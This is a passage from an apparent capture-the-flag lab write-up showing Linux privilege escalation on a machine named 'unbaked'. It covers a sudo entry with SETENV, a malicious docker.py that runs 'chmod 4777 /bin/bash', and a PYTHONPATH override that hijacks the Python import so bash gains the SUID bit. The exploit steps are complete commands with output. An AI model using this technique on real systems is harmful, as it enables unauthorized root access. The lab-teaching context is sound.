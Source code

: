 ## Checking Sudo -l
```console
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```
There is any entry for user oliver that he can run file /opt/dockerScript.py as root and also can set the environment varibles.

## Content of /opt/dockerScript.py
```console
oliver@unbaked:~$ cat /opt/dockerScript.py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```
Here docker is imported but using relative path. During the execution, python looks for the imported modules on the path mentioned on PYTHONPATH environment variable. As we can set the enviroment variable during the execution, we can creat our own docker.py module and set that path as the PYTHONPATH and during execution that file will run.

## Content of docker.py
```console
oliver@unbaked:~$ pwd
/home/oliver
oliver@unbaked:~$ cat docker.py 
import os

os.system('chmod 4777 /bin/bash')
```
This code just sets the SUID bit on the /bin/bash binary.

## Executing the /opt/dockerScript.py file
```console
oliver@unbaked:~$ sudo PYTHONPATH=`pwd` /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 6, in <module>
    client = docker.from_env()
AttributeError: 'module' object has no attribute 'from_env'
```
We get an error but if we check the permission of the /bin/bash binary, SUID bit is set on it.
```console
oliver@unbaked:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1037528 Jul 13  2019 /bin/bash
```
